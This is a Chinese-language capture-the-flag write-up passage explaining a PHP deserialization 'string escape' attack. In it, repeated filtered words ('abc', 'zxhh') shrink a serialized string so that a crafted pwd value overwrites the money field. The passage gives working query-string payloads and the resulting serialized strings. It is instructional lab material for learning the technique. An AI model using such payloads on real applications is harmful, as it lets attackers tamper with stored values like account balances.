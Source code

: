 `$login['name']`和`$login['pwd']`可控，序列化字符串如果出现`abc`或者`zxhh`就被替换为空，题目的意思也很明显，让我们重置`$login['money']`的值；

```php
?name=morningstar&pwd=123456
a:3:{s:4:"name";s:11:"morningstar";s:3:"pwd";s:6:"123456";s:5:"money";s:3:"999";}
```

首先我们需要明确注入的对象为：`";s:5:"money";s:4:"1000";}`
`";`是用于闭合上一个属性

```php
?name=&pwd=";s:5:"money";s:3:"999";}
a:3:{s:4:"name";s:0:"";s:3:"pwd";s:25:"";s:5:"money";s:3:"999";}";s:5:"money";s:3:"999";}
```

如果我们在`name`的值的位置输入若干个`abc`或`zxhh`，通过控制其数量，我们就可以构造字符串溢出使得`name`的值为：`";s:3:"pwd";s:26:"`，长度为`18`；这样的话，后面我们传入的`";s:5:"money";s:4:"1000";}`即可成功被反序列化

```php
?name=abcabcabcabcabcabc&pwd=";s:5:"money";s:4:"1000";s:1:"a";N;}
```

`s:1:"a";N;`是用来补充被吃掉的属性个数的，吃掉了`login["pwd"]`属性，就补充一个任意属性，使得`3`个属性的个数不会错
